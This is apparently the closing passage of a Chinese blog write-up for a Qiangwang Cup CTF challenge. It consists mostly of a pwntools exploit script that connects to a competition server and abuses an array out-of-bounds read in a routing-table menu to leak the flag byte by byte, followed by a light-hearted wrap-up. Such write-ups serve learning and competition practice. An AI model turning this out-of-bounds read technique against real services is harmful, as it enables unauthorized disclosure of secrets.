 end 数组溢出读取 secret

```plain
from pwn import *

context.log_level = 'debug'

def p(idx):
    a = remote('47.104.150.173', 1337)
    a.sendlineafter(b'4. Quit.', b'1')
    a.sendlineafter(b'IP:', b'0.0.0.0')
    a.sendlineafter(b'hop:', b'0.0.0.0')
    a.sendlineafter(b'4. Quit.', b'1')
    a.sendlineafter(b'IP:', b'255.255.255.255')
    a.sendlineafter(b'hop:', b'0.0.0.0')
    ip = (1 << (32 - idx)) - 1
    str_ip = '.'.join(str((ip >> (24 - i * 8)) & 0xff) for i in range(4)).encode()
    a.sendlineafter(b'4. Quit.', b'1')
    a.sendlineafter(b'IP:', str_ip)
    a.sendlineafter(b'hop:', b'0.0.0.0')
    a.sendlineafter(b'4. Quit.', b'3')
    a.sendlineafter(b'4. Quit.', b'2')
    a.sendlineafter(b'IP:', str_ip)
    a.recvuntil(b'The next hop is ')
    data = a.recvline().decode()
    a.close()
    return ''.join(chr(int(x)) for x in reversed(data.split('.')))

flag = ''
for i in range(16):
    flag += p(i)
    print(flag)
```

## 小结

卷不过卷不过，今年感觉比往年更卷了啊！

md，怎么感觉各种 py，到处都在传 *海鲜市场 强网杯 flag/wp.jpg* ，离谱（

摸了，今年继续水了个强网先锋，感觉还差两道题能进线下的样子

喵喵该跑路了，希望明年学弟学妹们能有机会进线下 ~*（啥时候有学妹*~

顺便，欢迎大师傅们到 [喵喵的博客](https://miaotony.xyz/?utm_source=butian) 逛逛喵~

*溜了溜了喵（*
